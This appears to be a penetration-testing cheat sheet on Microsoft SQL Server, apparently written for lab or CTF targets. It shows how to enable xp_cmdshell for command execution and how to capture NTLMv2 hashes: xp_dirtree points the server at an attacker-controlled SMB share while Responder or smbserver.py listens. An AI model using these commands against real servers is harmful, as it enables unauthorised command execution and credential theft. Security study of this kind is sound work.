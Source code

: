 # Microsoft SQL Server

SQL Server supports two authentication modes, Windows authentication mode and mixed mode.
* Windows authentication is the default, and is often referred to as integrated security because this SQL Server security model is tightly integrated with Windows. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.
* Mixed mode supports authentication both by Windows and by SQL Server. User name and password pairs are maintained within SQL Server.

## Versions

```
Build number 	SQL version
10.xx 	      SQL 2008/2008R2
11.xx 	      SQL 2012
12.xx 	      SQL 2014
13.xx 	      SQL 2016
14.xx 	      SQL 2017
```

https://buildnumbers.wordpress.com/sqlserver/


## Connection string examples by server version
https://www.connectionstrings.com/sql-server/




# Tools to connect to MsSQL from Kali


## impacket mssqlclient.py

```
$ mssqlclient.py Username:Password@10.10.10.125 -windows-auth
```
### Command Execution

By default, the xp_cmdshell option is disabled on new installations. We need to enable it.

```
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO  

-- Execute command
xp_cmdshell "whoami"
```
[xp_cmdshell configuration](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017)

### Capturing NTLMv2 Hash
In case a command execution is not possible we can use Responder to set up a rogue SMB server.
From MsSQL we make a request to any share in our attacker IP, windows will try to authenticate using the user credentials and will send the NTLMv2 hash.

```
$ responder -i tun0

[+] Listening for events...

[SMBv2] NTLMv2-SSP Client   : 10.10.10.xxx
[SMBv2] NTLMv2-SSP Username : Machine\mssql-svc
[SMBv2] NTLMv2-SSP Hash     : mssql-svc::Machine:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

```

Alternative tool would be Impacket smbserver.py that would capture the NTLMv2 hash when user try accessing our share. 

```
$ smbserver.py -smb2support myshare /Share
```

The NTLMv2 hash will be capture when executin the following commands on MsSQL Server

```
declare @q varchar(200);
set @q='\\Attacker-Ip\AnyShareName';
exec master.dbo.xp_dirtree @q;
```

## DBeaver
Need to be installed
GUI 

```
$ apt-get install dbeaver
```


# SQL Injection - Cheat Sheet

- https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/
- http://webcache.googleusercontent.com/search?q=cache:qfnxkRmzzNsJ:pentestmonkey.net/cheat-sheet/sql-injection/mssql-sqlinjection-cheat-sheet+&cd=1&hl=en&ct=clnk&gl=ca&client=ubuntu
